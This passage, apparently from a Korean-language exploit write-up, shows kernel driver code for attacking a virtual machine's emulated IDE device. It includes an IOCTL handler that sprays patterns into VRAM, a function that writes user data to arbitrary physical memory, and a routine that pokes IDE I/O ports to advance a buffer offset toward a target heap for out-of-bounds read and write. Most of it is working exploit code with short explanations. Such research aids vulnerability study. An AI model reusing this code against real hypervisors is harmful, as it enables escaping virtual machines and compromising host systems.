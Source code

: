 ```C
        CorruptData(*(WriteInfo*)Irp->AssociatedIrp.SystemBuffer);
        break;

    case VRAM_WRITE://Spary Pattern to VRAM Buffer
        data = *(VRAM_DATA*)Irp->AssociatedIrp.SystemBuffer;
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "Write Physical: %p %p %llu\n", data.physAddr.QuadPart, data.buffer, data.len);
        if (writePhysical(data.physAddr, data.buffer, data.len)) {
            ntStatus = STATUS_SUCCESS;
        }
        break;

    default:
        ntStatus = STATUS_INVALID_DEVICE_REQUEST;
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "Unrecognized IOCTL\n");

    }

    Irp->IoStatus.Status = ntStatus;
    IoCompleteRequest(Irp, 0);

    return ntStatus;
}
```

### VRAM Write

```C
int writePhysical(PHYSICAL_ADDRESS physAddr, PCHAR data, SIZE_T len) {
    CHAR* BaseAddress;
    //DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "%p %llu %llu\n", physAddr, len, data);
    if (!data) return 0;
    BaseAddress = MmMapIoSpace(physAddr, len, 0);

    if (BaseAddress) {
		memcpy(BaseAddress, data, len);
        MmUnmapIoSpace(BaseAddress,len);

        return 1;
    }
    return 0;
}
```
`MmMapIoSpace`로 물리 메모리에 매핑된 가상 메모리 주소를 얻고 여기에 유저 모드 프로세스에서 전달한 패턴 데이터를 씁니다. 이건 그래도 조금 간단해 보이죠?

### JumptoTargetHeap
OOB Read/Write를 하려면 타겟 힙까지 `DriveStateBufferOffset`을 증가시켜야겠죠?
아래는 버그를 트리거하여 `DriveStateBufferOffset`을 증가시키는 함수입니다.

```C
int JumptoTargetHeap() {
    DbgPrintEx(DPFLTR_IHVDRIVER_ID, 0, "[+] Initialize IDE_DRIVE_STATE\n");
    __outbyte(0x1f6, 0xe0);
    __outbyte(0x1f5, 0x2);
    __outbyte(0x1f4, 0xf8);
    __outbyte(0x1f3, 0x10);
    __outbyte(0x1f2, 0x77);
    __outbyte(0x1f7, 0x30);

    for (int i = 0; i < 0x200; i += 4) {
        __outdword(0x1f0, 0x41414141);
    }

    //Increase DriveStateBufferOffset 8MB
```